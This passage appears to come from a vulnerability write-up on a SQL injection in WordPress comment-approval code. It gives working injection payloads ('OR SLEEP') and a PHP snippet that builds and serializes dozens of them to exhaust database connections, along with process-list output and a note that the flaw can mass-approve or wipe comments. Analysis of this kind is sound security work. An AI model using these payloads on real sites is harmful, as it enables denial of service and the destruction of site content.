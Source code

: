 When ran, this would cause _every_ comment on the _entire_ site to be approved. If you 
were to spam a website and create thousands of comments across the site, then execute 
that query. You would increase the load on the server whenever rendering the wordpress
commments. In the same way, if you instead had the value of the attack array be 0, 
you would remove every comment on the entire site. Destroying all discussion and 
causing massive work on the administrators part to seperate the spam from real content.

This isn't the only way we can attempt to take down a site though. Here's a
devil-ishly simple one:

	$comments = array("1') OR SLEEP('9" => 1);

Which will cause the query to stay open.

	mysql> show processlist;
	+-----+------+-----------+------------+---------+------+------------+---------------------------------------------------------------------------------------+
	| Id  | User | Host      | db         | Command | Time | State      | Info                                                                                  |
	+-----+------+-----------+------------+---------+------+------------+---------------------------------------------------------------------------------------+
	| 831 | root | localhost | hackedsite | Query   |    0 | init       | show processlist                                                                      |
	| 841 | root | localhost | hackedsite | Query   |   39 | User sleep | UPDATE wp_comments SET comment_approved = '1' WHERE comment_ID IN ('1') OR SLEEP('9') |
	+-----+------+-----------+------------+---------+------+------------+---------------------------------------------------------------------------------------+

If you did this enough times, you could cause starvation to the website and it could 
run out of database threads to use. Causing a DoS attack. Take note of the code again:

	foreach ( $group_by_status as $status => $comments ) {
		// Sanity check. This shouldn't happen.
		if ( 'post-trashed' == $status )
			$status = '0';
		$comments_in = implode( "', '", $comments );
		$x = $wpdb->query( "UPDATE $wpdb->comments SET comment_approved = '$status' WHERE comment_ID IN ('" . $comments_in . "');" );
	}

We see that we're _looping_ this update query for each status. On my local host,
the max connection setting is set to 64. So we'll construct an array like so:

	php > $foo = array();
	php > for($i = 0; $i < 66; $i++) $foo["1') OR SLEEP('$i"] = $i;
	php > print_r($foo);
	Array
	(
	    [1') OR SLEEP('0] => 0
	    [1') OR SLEEP('1] => 1
	    [1') OR SLEEP('2] => 2
	    [1') OR SLEEP('3] => 3
	... etc

	print addslashes(serialize($foo));
